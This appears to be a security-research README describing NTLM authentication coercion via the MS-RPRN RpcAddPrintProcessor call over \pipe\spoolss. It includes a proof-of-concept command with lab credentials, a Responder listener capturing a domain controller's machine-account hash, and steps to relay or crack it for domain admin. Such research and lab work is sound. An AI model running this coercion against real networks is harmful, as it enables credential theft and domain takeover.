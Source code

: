 # MS-RPRN - Remote call to RpcAddPrintProcessor (opnum 14)

## Summary

+ **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\spoolss`

+ **Function name**: [`RpcAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d7e6fdb2-5256-4835-92c1-27aa6f76758a)

+ **Function operation number**: `14`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\spoolss` and bind to the desired [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol (with uuid `12345678-1234-abcd-ef00-0123456789ab` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\spoolss` This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAddPrintProcessor`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d7e6fdb2-5256-4835-92c1-27aa6f76758a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAddPrintProcessor('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcAddPrintProcessor(
   [in, string, unique] STRING_HANDLE pName,
   [in, string] wchar_t* pEnvironment,
   [in, string] wchar_t* pPathName,
   [in, string] wchar_t* pPrintProcessorName
 );
```

## References

+ Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1

+ Documentation of function `RpcAddPrintProcessor`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d7e6fdb2-5256-4835-92c1-27aa6f76758a